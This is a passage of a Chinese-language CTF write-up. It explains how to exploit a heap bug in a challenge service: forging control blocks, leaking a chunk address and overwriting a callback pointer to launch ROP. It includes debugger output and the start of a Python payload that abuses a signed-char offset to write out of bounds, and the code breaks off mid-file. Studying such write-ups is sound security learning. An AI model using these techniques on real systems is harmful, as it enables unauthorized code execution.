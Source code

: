 我们利用 `0x10` 来写 ctrblk，这样就获得了一个 `can_merge = 0x1` 的 `control_blk`。

![image-20240926185233046](https://oss.nova.gal/img/image-20240926185233046.png)

cool。现在我们就需要考虑的是如何泄露地址。如果我们之后的一个 block 是 puredata 的话，显然它会从 `0xbf26b000` 开始拷贝 0x1000 个字节。而此时我们的 `0xbf26b000` 是标记为使用的，因此我们必须要将其释放，并且在后面转为 `control_blk`

所以我们这时候利用 `client_0x10` 即可把它清 0。此时，我们的 `pre` 为 2，`pos` 为 3（我在这里添加了一个 puredata 块）



那么接下来怎么做呢？我们利用循环队列的特性，使其 blk 被覆写为 ctr_blk 即可。

简单再加一些堆块，使得 `pos` 指向 `0x12`，`pre` 指向 `0x2` 即可。

![image-20240926191342445](https://oss.nova.gal/img/image-20240926191342445.png)

此时，我们可以发现 `0xbf26b000` 里面的内容就是一个 callback_func 和 para

```bash
pwndbg> p/x *(struct control_blk *)0xbf26b000
$3 = {
  data = {
    arg = 0xbe240000,
    blks = 0xbe240000
  },
  callback_func = 0x7f0000f0,
  mode = 0x0
}
```

![image-20240926192340387](https://oss.nova.gal/img/image-20240926192340387.png)

可以看到这正是第三个 `large_chunk` 的地址



之后的事情就简单了。我们再次 clean_pipe。利用 `server_0x20`，将它的 `control_blk` 覆写，使其 arg 指向我们泄露的 large，func 指向一种 gadget，可以使得它 ret 到 r0 寄存器上。我们再用 `server_0x10` 把这个 large 拿回来写上 gadget，即可完成 ROP



至于这个 ROP 写什么，我只能说参考 2022 年 [byteCTF](https://bytedance.larkoffice.com/docx/doxcnWmtkIItrGokckfo1puBtCh)，重定向 SSH 到特定端口。



![image-20240926193729971](https://oss.nova.gal/img/image-20240926193729971.png)

```python
from pwno import *
import struct


def create_bypass_payload():
    payload = bytearray()

    # 需要 16 对（偏移，值），总共 32 字节
    for i in range(16):
        if i == 0:
            # 通过发送 248 来构造偏移量为 -8（因为 (char)248 == -8）
            offset = 248  # 0xF8
            value = 1  # 要写入 buf[504] 的值
        else:
            # 使用任意有效的偏移和值填充
            offset = 0  # 在允许范围内的偏移
            value = 0  # 任意值
        payload += struct.pack("BB", offset, value)
    return payload


def get_caller():
```